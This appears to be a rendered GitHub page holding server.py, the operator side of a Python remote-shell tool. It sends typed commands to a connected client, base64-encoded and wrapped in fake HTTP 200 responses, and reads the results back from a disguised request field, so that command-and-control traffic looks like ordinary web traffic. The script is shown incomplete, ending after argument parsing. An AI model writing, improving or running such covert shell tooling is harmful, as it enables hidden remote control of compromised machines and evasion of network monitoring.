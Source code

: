 > server.py

```python
import base64
import socket
import argparse
import time

def connection(s):
    print('Waiting for connection......')
    ss, addr = s.accept()
    print('client %s is connection!' % (addr[0]))
    print('print:\\!q for Disconnect')
    while True:
        cmd = input(str(addr[0]) + ':~#')
        if cmd == '\\!q':
            print('-- Disconnected --')
            exit(0)
        ss.send(encryption_res(cmd.encode()))
        data = ss.recv(4096)
        print(decryption_req(data).decode())

def encryption_res(data):
    # 可以采用任何加密或编码方式
    data = base64.b64encode(data).decode()
    # 对时间进行处理
    date = time.strftime('%a, %d %b %Y %X GMT', time.localtime(time.time()))

    sendData = "HTTP/1.1 200 OK"
    sendData += "\r\n"
    sendData += "Date: %s" % date
    sendData += "\r\n"
    sendData += "Content-Type: application/x-javascript"
    sendData += "\r\n"
    sendData += "Content-Length: %d" % len(data)
    sendData += "\r\n"
    sendData += "Connection: keep-alive"
    sendData += "\r\n"
    sendData += "\r\n"
    sendData += "%s" % data
    return sendData.encode()

def decryption_req(data):
    data = data.decode()
    data = data[data.find("\r\n\r\nstri0date=") + 14:]
    data = data[:data.find("\r\n\r\n")]
    data = str(base64.b64decode(data), "utf-8")
    return data.encode()

if __name__ == '__main__':
    # 命令行参数解析对象
    parser = argparse.ArgumentParser()
    parser.add_argument('-host', dest='hostName', default='0.0.0.0', help='Host Name(default=0.0.0.0)')
    parser.add_argument('-port', dest='conPort', default=1234,help='Host Port(default=1234)')
    # 解析命令行参数
    args = parser.parse_args()
    host = args.hostName
    port = args.conPort

    if host == None or port == None:
        print(parser.parse_args(['-h']))
        exit(0)

```